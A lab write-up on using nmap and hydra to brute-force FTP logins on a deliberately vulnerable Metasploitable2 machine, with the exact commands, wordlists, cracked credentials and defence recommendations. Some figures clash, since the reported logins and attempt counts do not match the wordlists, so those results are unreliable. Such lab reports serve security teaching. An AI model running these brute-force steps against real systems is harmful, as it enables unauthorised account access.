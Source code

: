 # 🔐 Hydra FTP Brute-Force Attack Lab Report

**Author:** Abdulrahman Said  
**Date:** 06/29/2025 
**Target IP:** 192.168.21.128  
**Service:** FTP (Port 21)  
**Tools Used:** hydra, nmap, echo, Linux CLI

---

## 📌 Executive Summary

This lab demonstrates the use of Hydra, a powerful password-cracking tool, to perform a brute-force attack against the FTP service on a vulnerable Metasploitable2 machine. The attack succeeded in discovering 5 valid login credentials.

---

## 🗺️ Network Topology

```
+------------------+              +-------------------------+
|  Kali Linux      | ------------|  Metasploitable2 (FTP)  |
|  192.168.21.X     |  FTP: 21   |  192.168.21.128         |
+------------------+              +-------------------------+
```

---

## 🛠️ Tools Description

- **Hydra:** A fast and flexible brute-force tool that supports many protocols.  
- **Nmap:** Used to confirm FTP (port 21) is open on the target machine.  
- **Echo + Redirection (>):** Used to create custom username and password lists.

---

## 📋 Steps Performed

### 1. Scan the Target for FTP
```bash
nmap -p 21 192.168.21.128
```
**Result:**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```

### 2. Create Wordlists
```bash
echo -e "msfadmin\nroot\ntoor\nadmin\nuser" > users.txt
echo -e "msfadmin\n123456\npassword\nadmin" > passwords.txt
```

### 3. Run Hydra Attack
```bash
hydra -L users.txt -P passwords.txt ftp://192.168.21.128
```

---

## ✅ Hydra Output Summary
```bash
[21][ftp] host: 192.168.21.128   login: ftp       password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: root
[21][ftp] host: 192.168.21.128   login: msfadmin  password: msfadmin
[21][ftp] host: 192.168.21.128   login: ftp       password: toor
[21][ftp] host: 192.168.21.128   login: ftp       password: 123456
```

---

## 🧠 Interpretation

The FTP service accepts weak and default credentials, including common names like ftp, msfadmin, toor, and 123456.  
Hydra tested 30 login attempts across 6 users × 5 passwords in seconds.

---

## ⚠️ Risk Assessment

| Risk                  | Description                             | Impact | Mitigation                          |
|-----------------------|-----------------------------------------|--------|-------------------------------------|
| Weak FTP Credentials  | Default/weak passwords easily cracked   | High   | Use strong, unique passwords        |
| Brute-force Vulnerable| Service does not rate-limit login tries | High   | Implement rate limiting or lockouts|
| FTP Unencrypted       | Credentials sent in plain text          | High   | Replace FTP with SFTP or disable FTP|

---

## 🛡️ Defense Recommendations

- Enforce strong password policies.  
- Disable FTP if not needed, or replace it with secure alternatives like SFTP.  
- Monitor logs for brute-force attempts.  
- Use tools like fail2ban to block repeated failed login attempts.

---

## 📎 Notes

This attack was conducted in a controlled lab environment.  
All actions were ethical and educational, targeting a deliberately vulnerable machine.
